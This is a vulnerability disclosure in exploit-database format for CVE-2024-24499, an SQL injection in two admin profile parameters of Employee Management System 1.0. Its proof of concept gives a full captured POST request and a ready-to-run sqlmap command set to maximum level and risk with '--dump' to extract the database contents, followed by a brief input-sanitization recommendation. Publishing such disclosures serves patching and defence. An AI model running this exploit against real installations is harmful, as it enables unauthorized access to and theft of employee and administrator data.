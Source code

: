 # Exploit Title: Employee Management System 1.0 - `txtfullname` and `txtphone` SQL Injection
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/16999/employee-management-system.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24499

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /employee_akpoly/Admin/edit_profile.php

> Two parameters `txtfullname` and `txtphone` within admin edit profile mechanism are vulnerable to SQL Injection.


![txtfullname](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/admin_edit_txtfullname_sqli.png?raw=true)

![txtphone](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/admin_edit_txtphone_sqli.png?raw=true)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `edit_profile.txt`:

```
POST /employee_akpoly/Admin/edit_profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_akpoly/Admin/edit_profile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtfullname=Caroline+Bassey&txtphone=0905656&old_image=uploadImage%2Fbird.jpg&btnupdate=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r edit_profile.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Employee Management System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.